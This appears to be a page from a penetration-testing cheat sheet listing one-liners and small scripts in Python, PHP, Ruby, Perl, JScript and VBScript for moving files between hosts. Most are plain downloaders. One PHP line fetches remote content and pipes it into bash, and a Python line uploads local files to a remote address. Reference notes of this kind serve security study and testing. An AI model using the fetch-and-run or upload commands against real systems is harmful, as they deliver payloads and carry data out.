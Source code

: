 # File Transfer using Programming Languages

The use of programming languages provides flexibility and automation for moving files across systems. Below are some common methods using different programming languages:

* &#x20;Download using _Python_

{% code overflow="wrap" lineNumbers="true" %}
```bash
python -c 'import urllib.request;urllib.request.urlretrieve("https://$URL/$file", "$outFile")'
```
{% endcode %}

***

* &#x20;Upload using _Python_

{% code overflow="wrap" lineNumbers="true" %}
```bash
python3 -m uploadserver #Start server
python3 -c 'import requests;requests.post("http://$IP/$uploadFolder",files={"files":open("$pathToFile","rb")})'
```
{% endcode %}

***

* Download using _PHP_

{% code overflow="wrap" lineNumbers="true" %}
```bash
php -r '$file = file_get_contents("https://<URL>/<file>"); file_put_contents("<file>",$file);'

#Alternative
php -r 'const BUFFER = 1024; $fremote = fopen("https://<URL>/<file>", "rb"); $flocal = fopen("<file>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'

#Alternative 2
php -r '$lines = @file("https://<URL>/<file>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
{% endcode %}

{% hint style="warning" %}
The usual $ symbols that are used to point out the things we have to change are replaced by <> due to the use of this symbol as a reserved operator in PHP
{% endhint %}

***

* &#x20; Download using _Ruby_

{% code overflow="wrap" lineNumbers="true" %}
```bash
ruby -e 'require "net/http"; File.write("$outFile", Net::HTTP.get(URI.parse("https://$URL/$file")))'
```
{% endcode %}

***

* &#x20; Download using _Perl_

{% code overflow="wrap" lineNumbers="true" %}
```bash
perl -e 'use LWP::Simple; getstore("https://$URL/$file", "$outFile");'
```
{% endcode %}

***

* Create a script using JavaScript on _Windows_

{% code title="Download.js" overflow="wrap" lineNumbers="true" %}
```bash
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
{% endcode %}

{% code overflow="wrap" lineNumbers="true" %}
```bash
cscript.exe /nologo Download.js $URL $outFile #Execute script to donwload
```
{% endcode %}

***

* &#x20; Create a script using Visual Basic Script on _Windows_

{% code title="Download.vbs" overflow="wrap" lineNumbers="true" %}
```bash
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
{% endcode %}

{% code overflow="wrap" lineNumbers="true" %}
```bash
cscript.exe /nologo Download.vbs $URL $outFile #Execute script to donwload
```
{% endcode %}
